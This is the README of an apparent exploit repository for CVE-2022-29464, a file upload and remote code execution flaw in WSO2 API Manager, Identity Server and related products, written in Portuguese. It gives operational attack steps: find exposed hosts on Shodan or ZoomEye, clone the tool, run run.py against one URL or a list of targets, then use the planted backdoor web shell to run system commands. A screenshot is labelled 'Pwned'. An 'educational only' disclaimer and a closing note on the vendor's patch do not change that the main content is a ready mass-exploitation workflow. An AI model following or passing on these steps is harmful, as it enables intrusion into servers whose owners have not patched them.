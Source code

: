 # WSO2RCE

A [CVE-2022-29464](https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2021-1738) afeta alguns produtos *WSO2* como *WSO2 API Manager* e *WSO2 Open Banking*, permitindo upload arbitrário de arquivos e execução remota de código.

**Produtos afetados:**

 - WSO2 API Manager 2.2.0, up to 4.0.0  
 - WSO2 Identity Server 5.2.0, up to 5.11.0  
 - WSO2 Identity Server Analytics 5.4.0, 5.4.1, 5.5.0, 5.6.0  
 - WSO2 Identity Server as Key Manager 5.3.0, up to 5.11.0  
 - WSO2 Enterprise Integrator 6.2.0, up to 6.6.0  
 - WSO2 Open Banking AM 1.4.0, up to 2.0.0  
 - WSO2 Open Banking KM 1.4.0, up to 2.0.0

# PoC

*Aviso: Apenas para fins educativos.*
## Encontrando alvos
Em plataformas como Shodan ou zoomye é possível identificar inúmeros hosts publicados na internet utilizando produtos WSO2.

![Shodan](/imagens/shodan.png?raw=true "Shodan")

## Baixe o exploit
Clone este repositório:


    git clone https://github.com/Pasch0/WSO2RCE.git
    cd WSO2RCE



## Executando o exploit
Para iniciar o ataque utilize o comando -u para indicar uma única URL como alvo ou -f para um arquivo com múltiplos alvos:

    python run.py -u https://alvo.com/

![python3 run.py -f alvos.txt](imagens/run.png?raw=true "python3 run.py -f alvos.txt")

## Acessando a backdoor
Ao acessar a backdoor pela URL gerada na execução do script é possível interagir com o campo de texto inserindo comandos do sistema e recebendo a resposta na página.

![shell](/imagens/passwd.png?raw=true "Pwned")

## SOLUÇÃO

O WSO2 forneceu mitigações temporárias aos clientes em janeiro de 2022 e forneceu as correções para todas as versões de produtos com suporte listadas na [Matriz de Suporte do WSO2](https://wso2.com/products/support-matrix/) (status "disponível" e "obsoleto") em fevereiro. Se você for um cliente WSO2 com uma Assinatura de Suporte, use as [Atualizações WSO2](https://wso2.com/updates/) para aplicar a correção.

Para mais detalhes acesse: https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2021-1738

